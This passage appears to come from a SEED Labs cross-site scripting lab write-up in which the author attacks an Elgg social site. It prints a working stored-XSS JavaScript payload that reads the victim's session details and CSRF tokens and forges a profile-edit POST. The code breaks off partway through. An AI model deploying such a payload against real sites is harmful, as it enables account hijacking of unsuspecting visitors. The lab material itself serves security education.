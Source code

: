 The network tab confirms the GET request was sent, successfully adding Samy to Alice’s friend list.

# Attack to Inject Code on Alice Profile (Post request)

To modify a user’s profile, I analyzed the website’s profile-editing mechanism, which uses a POST request with the following parameters:

![alt text](/assets/img/seed/WO2/img9.png)


- &name=Samy
- &description=Samy is my hero
- &accesslevel[descriptopion]=2
- .....(omotted lines) .....
- &guid=47

I constructed a malicious Ajax POST request to edit Alice’s profile when she visits Samy’s profile:

```yaml
<script type="text/javascript">
window.onload = function(){

    var name = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    var desc = "&description=Samy is my hero" + "&accesslevel[description]=2";

    // Construct the content of your url.
    var sendurl = "http://www.seed-server.com/action/profile/edit";

    var content = token + ts + name + desc + guid;
    // var samyGuid = "&guid=59";

    if (elgg.session.user.guid != 59) {

        // Create and send Ajax request to modify profile

```